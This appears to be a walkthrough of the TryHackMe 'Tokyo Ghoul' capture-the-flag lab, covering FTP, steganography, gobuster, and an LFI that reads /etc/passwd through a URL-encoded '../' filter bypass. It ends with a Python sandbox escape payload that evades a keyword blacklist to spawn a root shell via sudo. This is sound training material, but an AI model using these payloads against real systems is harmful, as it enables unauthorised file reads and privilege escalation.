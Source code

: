 # [Tokyo Ghoul](https://tryhackme.com/room/tokyoghoul666)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sat Feb 19 13:45:53 2022 as: nmap -vvv -p 22,21,80 -sCV -oA init 10.10.222.220
Nmap scan report for 10.10.222.220
Host is up, received conn-refused (0.25s latency).
Scanned at 2022-02-19 13:46:05 +07 for 16s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23  2021 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.21.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeIXT46ZiVmp8Es0cKk8YkMs3kwCdmC2Ve/0A0F7aKUIOlbyLc9FkbTEGSrE69obV3u6VywjxZX6VWQoJRHLooPmZCHkYGjW+y5kfEoyeu7pqZr7oA8xgSRf+gsEETWqPnSwjTznFaZ0T1X0KfIgCidrr9pWC0c2AxC1zxNPz9p13NJH5n4RUSYCMOm2xSIwUr6ySL3v/jijwEKIMnwJHbEOmxhGrzaAXgAJeGkXUA0fU1mTVLlSwOClKOBTTo+FGcJdrFf65XenUVLaqaQGytKxR2qiCkr7bbTaWV0F8jPtVD4zOXLy2rGoozMU7jAukQu6uaDxpE7BiybhV3Ac1x
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5o77nOh7/3HUQAxhtNqHX7LGDtYoVZ0au6UJzFVsAEJ644PyU2/pALbapZwFEQI3AUZ5JxjylwKzf1m+G5OJM=
|   256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJwYjN/qiwrS4es9m/LgWitFMA0f6AJMTi8aHkYj7vE
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 19 13:46:21 2022 -- 1 IP address (1 host up) scanned in 27.66 seconds
```

With anonymous FTP login enabled, we can login and grab all the files. I used `wget`.

```sh
wget ftp://anonymous@RHOST/ --recursive
```

`Aogiri_tree.txt` seems to just be a narrative piece, `need_to_talk` is an ELF file and `rize_and_kaneki.jpg` is of course an image. Executing `need_to_talk` prompts us for a passphrase so I looked for strings in the binary.

```sh
$ rabin2 -z need_to_talk
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 9   10   .rodata ascii <REDACTED PASSPHRASE>
1   0x00002018 0x00002018 37  38   .rodata ascii Hey Kaneki finnaly you want to talk \n
2   0x00002040 0x00002040 82  83   .rodata ascii Unfortunately before I can give you the kagune you need to give me the paraphrase\n
3   0x00002098 0x00002098 35  36   .rodata ascii Do you have what I'm looking for?\n\n
4   0x000020c0 0x000020c0 47  48   .rodata ascii Good job. I believe this is what you came for:\n
5   0x000020f0 0x000020f0 51  52   .rodata ascii Hmm. I don't think this is what I was looking for.\n
6   0x00002128 0x00002128 36  37   .rodata ascii Take a look inside of me. rabin2 -z\n
```

Entering the passphrase (redacted), we're given a new string. passphrase (redacted), we're given a new string. I then checked for steganography with that new string.

```sh
$ steghide extract -sf rize_and_kaneki.jpg
Enter passphrase:
wrote extracted data to "yougotme.txt".
```

The new file `yougotme.txt` contains a bunch of dots and dashes which made me think of Morse code. Analyzing it in [CyberChef](https://gchq.github.io/CyberChef/), I ran it through "From Morse Code", "From Hex", and "From Base64" and got what looks like a directory name.

I then went to the web site on port 80. Looking at the source code, comments pointing to FTP can be found in both the landing page and `/jasonroom.html`. Going to the directory we previously got from CyberChef, we're told to scan the page so I ran `gobuster` on it.

```sh
$ gobuster dir -u "http://10.10.222.220/SECRET_DIR/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
```

The resulting directory `c***m` is found.

![](./c___m.png)

Looking at the links on the page, we see that we have potential LFI with `index.php?view=`. Trying to grab `/etc/passwd` with `../` doesn't work since `..` is blacklisted. The blacklist can easily be bypasswd by URL-encoding the `../`.

```
view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```

We should get kamishiro's hash which we can crack with `john`. The cracked password can then be used to SSH in as kamishiro.

Checking our `sudo` privileges ...

```sh
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro:
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

... we see that we can run `jail.py` as root.

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

`exec` is called on user input put through a blacklist. Looking around [hacktricks' python sandbox bypasses](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#finding-dangerous-libraries-loaded), I found and modified a payload to execute `/bin/bash`.

```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'OS.".lower() in str(x) ][0]['sys'+'tem']('/bin/bash')
```

Using that, we should get a shell as root.

```sh
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
[sudo] password for kamishiro:
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'OS.".lower() in str(x) ][0]['sys'+'tem']('/bin/bash')
root@vagrant:~#
```
